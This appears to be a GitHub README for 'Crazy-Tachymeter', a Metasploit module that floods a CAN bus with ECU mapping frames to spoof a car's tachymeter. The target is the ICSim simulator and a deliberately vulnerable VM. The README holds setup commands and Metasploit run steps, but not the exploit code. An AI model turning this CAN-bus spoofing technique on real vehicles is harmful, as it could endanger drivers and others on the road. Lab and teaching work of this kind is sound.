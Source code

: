 # Crazy-Tachymeter
Crazy-Tachymeter is an exploit that allows you to flood the CAN-Bus with frames of the ECU mapping file.

This project uses a CAN simulator (ICSim by OpenGarages). [[Link]](https://github.com/zombieCraig/ICSim)

![markdown-preview](img/exploitkali.png)![markdown-preview](img/maxspeed.png)

### What do you need
1) Virtual Machine with a CAN simulator installed. On this VM you also need a vulnerable server for remote command execution.
2) Kali Linux with this exploit included.
3) Make sure the machines are connected each other.


### How to setup the Vulnerable VM
Download the vulnerable VM with CAN simulator installed from **Release**. (Bodhi-Linux, user=pass=tachymeter)

Open a terminal and run the following commands to setup a virtual CAN interface.
```
  sudo modprobe can
  sudo modprobe vcan
  sudo ip link add dev vcan0 type vcan
  sudo ip link set up vcan0
```
After that, open two terminal and enter on ICSim directory, then use the following commands for startup simulator and controller.
```
  ./icsim vcan0
  ./controls vcan0
```
At this point you need to start the vulnerable server for remote command execution.
```
  cd Documents
  python vulnerable_server.py
```
Now your VM is ready and vulnerable for the exploit.
### How to setup the exploit on Kali Linux
You can follow 2 ways:

On Kali Linux, copy the:

  */exploit/remote/crazytachymeter_remote.rb* --> to --> */usr/share/metasploit-framework/modules/auxiliary/spoof/replay/*

  **OR** (if you have already a metasploit session and you don't need a vulnerable server)
  
  */exploit/crazytachymeter.rb* --> to --> */usr/share/metasploit-framework/modules/post/hardware/automotive/*
  
  Then copy the
  
  */exploit/controlUnitMapCanBus.txt*  --> to --> */usr/share/metasploit-framework/data/wordlists/controlUnitMapCanBus.txt*


After that, based on the choice of the exploit in the previous step, you can run:
```
  use use auxiliary/spoof/replay/crazytachymeter_remote 
  set interface vcan0
  set rhost IPVictim
  set rport python_server_port_number
  exploit
```
**OR** (if you have already a metasploit session and you don't need a vulnerable server) you can run:

```
  use post/hardware/automotive/crazytachymeter 
  set INTERFACE canbusinterface (e.g. vcan0)
  set session id
  run
```
Now you can see the exploit running.. Look at the tachymeter.
You can also change the path of the file with a new ECU mapping!

Enjoy!
